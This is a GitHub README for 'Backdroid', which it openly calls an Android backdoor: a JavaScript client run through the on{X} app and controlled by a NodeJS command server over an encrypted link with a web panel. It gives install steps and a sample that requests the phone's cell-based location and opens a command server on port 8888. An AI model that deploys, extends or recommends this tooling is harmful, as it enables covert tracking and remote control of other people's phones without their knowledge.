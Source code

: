 Backdroid v1.0.0 BETA
==================================================

What is this?
--------------------------------------

it's a backdoor for Android formed by a client written in JavaScript, with the help of http://onx.ms/, and a server written in NodeJS.

Features
--------------------------------------

	Encrypted connection in AES-256
	Web panel control
	Very flexible and scalable to add new features

How to install?
--------------------------------------

1º Download and install NodeJS (http://nodejs.org/).
2º Install backdroid with npm by the console (npm install -g backdroid).
3º Download and install Onx App for Android (https://play.google.com/store/apps/details?id=com.microsoft.onx.app).
4º Login in https://www.onx.ms/.
5º Download backdroid proyect.
6º Copy client.js source code (https://github.com/yeikos/nodejs.backdroid/blob/master/client.js) and paste it into https://www.onx.ms/#!createScriptPage (new rule).
7º Go to examples project folder and launch each example by the console (node SCRIPTNAME).

Example
--------------------------------------
	
	var backdroid = require('backdroid');

	backdroid.setCommand('location', { provider: 'CELL' }, function(command, value) {

		console.log('[sent]', command, value);

	}, function(command, value, response) {

		console.log('[response]', command, value, response);

	});

	backdroid.createCommandServer({

		password: 'secret',
		password_encryptation: 'secret123',
		
		port: 8888

	});
